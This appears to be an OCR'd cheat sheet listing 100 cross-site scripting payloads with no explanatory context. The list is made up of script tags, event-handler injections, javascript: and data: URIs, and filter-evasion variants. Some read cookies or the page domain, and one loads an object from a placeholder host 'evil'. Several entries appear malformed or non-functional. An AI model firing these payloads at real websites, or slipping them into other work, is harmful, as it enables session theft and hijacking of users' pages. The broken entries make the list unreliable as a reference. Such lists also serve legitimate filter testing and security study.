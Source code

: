1. <script>alert(1)</script>
2. <img src=x onerror=alert(1)>
3. <svg/onload=alert(1)>
4. <body onload=alert(1)>
5. <iframe src="javascript:alert(1)"></iframe>
6. '"><script>alert('XSS')</script>
7. "\'><img src=x onerror=alert(1)>
8. <math><mi/x><script>alert(1)</script>
9. <video src=x onerror=alert(1)>
10. <audio src=x onerror=alert(1)>
11. <details open ontoggle=alert(1)>
12. <object data="javascript:alert(1)"></object>
13. <iframe srcdoc="<script>alert(1)</script>"></iframe>
14. <img/srcset=x onerror=alert(1)>
15. <link onmouseover=alert(1) href="#">test</link>
16. <meta http-equiv="refresh" content="0;url=javascript:alert(1)">
17. <style>@import "javascript:alert(1)";</style>
18. <svg><style>@keyframes x{}</style><animate onbegin=alert(1)></animate>
19. <xss style="xss:expression(alert(1))">
20. <img onerror=alert(document.domain) src=x>
21. <script>prompt(1)</script>
22. <script>confirm(1)</script>
23. <svg onload=confirm(1)>
24. <iframe src=javascript:confirm(1)></iframe>
25. <svg><script>alert(self.name)</script>
26. <script>document.write('<img src=x onerror=alert(1)>')</script>
27. <svg><animate attributeName=onbegin from=1 to=1 onbegin=alert(1)></animate>
28. <math><maction xlink:href="javascript:alert(1)"></maction></math>
29. <script>setTimeout("alert(1)",0)</script>
30. <script>setInterval("alert(1)",1000)</script>
31. <script>eval("alert(1)")</script>
32. <body background="javascript:alert(1)">
33. <iframe onload=alert(1)>
34. <img src="javascript:alert(1)">
35. <input autofocus onfocus=alert(1)>
36. <input onblur=alert(1) autofocus>
37. <form onsubmit="alert(1);return false"><input type=submit></form>
38. <svg><circle onmouseover=alert(1) r=40/></svg>
39. <svg><foreignObject onload=alert(1)></foreignObject>
40. <video><source onerror=alert(1)></video>

41. "%3Cscript%3Ealert(1)%3C/script%3E"
42. \u003Cscript\u003Ealert(1)\u003C/script\u003E
43. %3Cimg%20src=x%20onerror=alert(1)%3E
44. <script>location='javascript:alert(1)'</script>
45. <base href="javascript:alert(1);//">
46. <svg><a xlink:href="javascript:alert(1)">X</a></svg>
47. <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
48. <svg><script xlink:href="data:x,<script>alert(1)</script>"></script></svg>
49. <input value="</style><script>alert(1)</script>">
50. </title><script>alert(1)</script><title>
51. </script><script>alert(1)</script>
52. <script>alert(/XSS/)</script>
53. <svg onload=alert`1`>
54. <svg><script>alert`1`</script>
55. <img src=1 onerror=prompt(1)>
56. <a href="javascript:prompt(1)">click</a>
57. <iframe src="vbscript:msgbox(1)"></iframe>
58. <script>javascript:alert(1)</script>
59. <object type="text/x-scriptlet" data="https://evil/"></object>
60. <embed src="javascript:alert(1)">
61. <applet code="javascript:alert(1)"></applet>
62. <script>alert(document.cookie)</script>
63. <svg><script>alert(document.location)</script>
64. <body onload=alert(document.location)>
65. <img onerror=alert(document.cookie) src=x>
66. <svg><desc onfocus=alert(1) tabindex=1>desc</desc></svg>
67. <svg><text onmouseover=alert(1)>X</text></svg>
68. <svg><script>alert(self)</script>
69. <script>alert(top.location)</script>
70. <script>alert(parent)</script>
71. <img src="#\" onerror=alert(1)>
72. <audio><source src=onerror=alert(1)></audio>
73. <video onloadedmetadata=alert(1)><source src=#>
74. <script>new Image().src='javascript:alert(1)';</script>
75. <svg><script>window</script>
76. <script>Function('alert(1)')()</script>
77. <script>setTimeout(Function("alert(1)"),0)</script>
78. <textarea autofocus onfocus=alert(1)>text</textarea>
79. <button onfocus=alert(1)>Click</button>
80. <div tabindex=1 onfocus=alert(1)>X</div>
81. <svg><rect width=100 height=100 onmouseover=alert(1)></rect></svg>
82. <body onresize=alert(1)>
83. <iframe allowfullscreen src="javascript:alert(1)"></iframe>
84. <svg><filter><feFlood onload=alert(1) /></filter></svg>
85. <xmp><img src=x onerror=alert(1)></xmp>
86. <plaintext><script>alert(1)</script>
87. <iframe src="data:text/html,<img src=x onerror=alert(1)>"></iframe>
88. <svg><script><![CDATA[alert(1)]]></script>
89. <svg><animate onbegin=alert(1)></animate>
90. <img src=x onerror="alert( String . fromCharCode (65) )">
91. <script>p=alert; p(1)</script>
92. <svg><switch onmouseenter=alert(1)><g/></switch></svg>
93. <style>@keyframes a{};*{-webkit-animation:a 1ms;animation:a 1ms;}*{animation-name:alert(1)}</style>
94. <img src=# onerror=alert(String.fromCharCode(97,108,101,114,116,40,49,41))>
95. <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiVnhTUyIpPC9zY3JpcHQ+"></iframe>
96. <link href="data:text/css;base64,KyB7IGJhY2tncm91bmQtY29sb3I6I3AwMDsgfSBpbWcgeyBjb250ZW50OmFjdGl2YXRlKGFsZXJ0KDEpKTsgfQ==" rel="stylesheet">
97. <svg><style><![CDATA[@import "data:text/css;base64,KyB7IGJhY2tncm91bmQtY29sb3I6I2MwMTsgfSBpbWcgeyBjb250ZW50OmFjdGl2YXRlKDEpKTsgfQ=="]];></style>
98. <script>![]['filter']['constructor']('alert(1)')()</script>
99. <script>constructor.constructor('alert(1)')()</script>
100. <script>window['_']=alert;_[1]</script>
